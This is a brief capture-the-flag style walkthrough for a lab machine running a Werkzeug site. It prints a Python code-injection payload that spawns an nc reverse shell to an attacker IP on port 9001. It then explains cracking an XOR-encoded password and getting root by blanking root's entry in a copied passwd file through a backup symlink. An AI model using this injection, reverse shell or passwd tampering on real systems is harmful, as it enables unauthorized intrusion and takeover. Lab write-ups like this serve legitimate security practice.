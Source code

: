 Started with a nmap scan
```
22 OpenSSH 8.2p1
5000 upnp Werkzeug 2.1.2 Python 3.8.10
```
Going to the website it gives us the source code
Tested all the forums inputs for sqli
Looking in the code the `bisection` section of the site is vulnerable to injection the `xa` variable is the one we want it does not have checks and we can test this with this code 
	`__import__('os').system('touch test')#` 
and have to url encode what's in the system section we can get a rev shell from this with this
	`__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.8.255 9001 >/tmp/f')#`
So there is a script in the `/opt` folder gives a hash in XOR to decrypt this I encrypted my own hash and decoded it from base64 and then to decimal with the UTF8 key and then opened another windows in cyber chef with the key it gave me and did the same process and matched them to the hash it have us and it got us the key to decrypt it `superse.......` and now we got the password `G0th@m......` for the gordon user now that were on the user `gordon` there is a script that backups the reports folder so I copied the passwd file into the reports folder and then change the root login to this `root::0:0:root:/root:/bin/bash` and then removed the backups folder and then symlink it with this `ln 0s /etc/backups` and give it a couple minutes and we can su to root with no password 